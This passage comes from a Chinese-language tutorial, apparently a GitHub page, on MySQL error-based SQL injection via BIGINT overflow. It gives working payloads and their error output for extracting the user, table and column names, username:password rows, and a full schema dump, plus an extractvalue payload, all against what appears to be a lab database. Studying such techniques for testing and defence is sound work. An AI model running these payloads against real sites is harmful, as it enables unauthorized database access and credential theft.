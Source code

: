         1 row in set (0.00 sec)
    
        我们再对其进行加减运算：
        
        `select ~0+!(select*from(select user())x);`
        
        ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '(~(0) + (not((select 'root@localhost' from dual))))'
        
        注意：我们不常用加法，因为“+”通过网页浏览器解析会转为空白符，此时可以用%2b来表示+。**常用减法**。
        
        最终语句如下：
        ```sql
        !(select*from(select user())x)-~0
        (select(!x-~0)from(select(select user())x)a)
        (select!x-~0.from(select(select user())x)a)
        ```
    
    * 0x03 提取数据——获得表名
        
        `select !(select*from(select table_name from information_schema.tables where table_schema=database() limit 0,1)x)-~0;`
        
        ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '((not((select 'emails' from dual))) - ~(0))'
        
    * 0x03 提取数据——获得列名
     
        `select !(select*from(select column_name from information_schema.columns where table_name='users' limit 0,1)x)-~0;`
    
        ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '((not((select 'user_id' from dual))) - ~(0))'
    
    * 0x03 提取数据——检索数据
    
        `select !(select*from(select concat_ws(':',id, username, password) from users limit 0,1)x)-~0;`
        
        ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '((not((select '1:Dumb:Dumb' from dual))) - ~(0))'
        
    * 0x04 一次性转储
        
        ```sql
        !(select*from(select(concat(@:=0,(select count(*)from`information_schema`.columns where table_schema=database()and@:=concat(@,0xa,table_schema,0x3a3a,table_name,0x3a3a,column_name)),@)))x)-~0
        
        (select(!x-~0)from(select(concat (@:=0,(select count(*)from`information_schema`.columns where table_schema=database()and@:=concat (@,0xa,table_name,0x3a3a,column_name)),@))x)a)
        
        (select!x-~0.from(select(concat (@:=0,(select count(*)from`information_schema`.columns where table_schema=database()and@:=concat (@,0xa,table_name,0x3a3a,column_name)),@))x)a)
        ```
        
        注意，毕竟我们是通过错误消息来检索数据的，在从当前数据库转储检索时，会限制了最多27个结果，即最多会返回27个列，多出的都无法返回。
        
        当然，以上3条语句均可以在增删改查其他地方进行注入攻击。
        
        另外需要再次注意的一点是，这些均因为mysql 5.5.5及以上版本会提供mysql_error()。

- `select extractvalue(1,concat(0x7e,(select @@version),0x7e));`
